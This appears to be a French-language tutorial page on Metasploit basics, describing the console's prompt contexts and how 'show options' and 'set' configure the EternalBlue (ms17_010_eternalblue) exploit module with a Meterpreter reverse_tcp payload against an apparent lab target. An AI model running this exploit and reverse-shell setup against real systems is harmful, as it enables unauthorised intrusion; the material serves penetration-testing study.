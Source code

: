 
## __Contexte__

Il y a plusieurs contexte dans metasploit, 
- **regular command prompt**, on ne peut pas utiliser metasploit ici.

```shell
root@ip:~#
```

- **msfconsole prompt**, c'est la console metasploit.

```shell
msf6 >
```

- **Context prompt**, elle indique le module que l'on utilise.

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

- **Meterpreter prompt**, cela signifie qu'un agent Meterpreter a été chargé sur la machine ciblé.

```shell
meterpreter >
```

- **shell on the target system**, c'est la ligne de commande sur la machine exploité.

```shell
C:\Windows\system32>
```


## __Options__

### Show

Pour obtenir la **liste des options** dont a besoin un module pour fonctionner on utilise la commande **`show options`**.

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                             /basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Win
                                             dows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machin
                                             es.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows
                                              Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 20
                                             08 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.0.4         yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.
```

### Set

Pour **donner une valeur** a notre option, on utilise la commande **`set`**

```shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.165.39
rhosts => 10.10.165.39
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.165.39     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                             /basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Win
                                             dows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machin
                                             es.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows
                                              Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 20
                                             08 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.0.4         yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.
```